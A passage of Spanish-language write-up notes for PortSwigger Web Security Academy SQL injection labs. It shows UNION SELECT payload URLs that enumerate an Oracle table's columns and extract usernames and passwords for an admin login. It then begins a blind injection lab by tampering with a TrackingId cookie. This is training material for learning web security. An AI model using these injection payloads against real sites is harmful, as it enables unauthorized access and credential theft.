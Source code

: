 Nos damos cuenta de que  existe la tabla `USERS_LCWCLV`, obtener la cantidad de columnas de esa tabla:

```sql
https://ac731fc51efb9d2380bb4cac00a2007d.web-security-academy.net/filter?category='+UNION+SELECT+NULL,column_name+FROM+USER_TAB_COLUMNS+WHERE+table_name='USERS_LCWCLV'--

# o tambien

https://ac731fc51efb9d2380bb4cac00a2007d.web-security-academy.net/filter?category='+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_LCWCLV'--
```

Tiene las siguientes columnas: `USERNAME_ILDCWJ` y `PASSWORD_XSPJTL`, vamos a obtener el contenido de esas columnas:

```sql
https://ac731fc51efb9d2380bb4cac00a2007d.web-security-academy.net/filter?category='+UNION+SELECT+USERNAME_ILDCWJ,PASSWORD_XSPJTL+FROM+USERS_LCWCLV--
```

Obtener las credenciales:

![foto](../Portswigger%20images/SQLi3.PNG)

Ahora iniciamos sesion como administrador.

### Blind SQL injection with conditional responses

Interceptamos la peticion con Burp y vemos que hay una cookie que es `TrackingId`, la modificamos con una sentencia booleana, el clasico **' and '1'='1**:
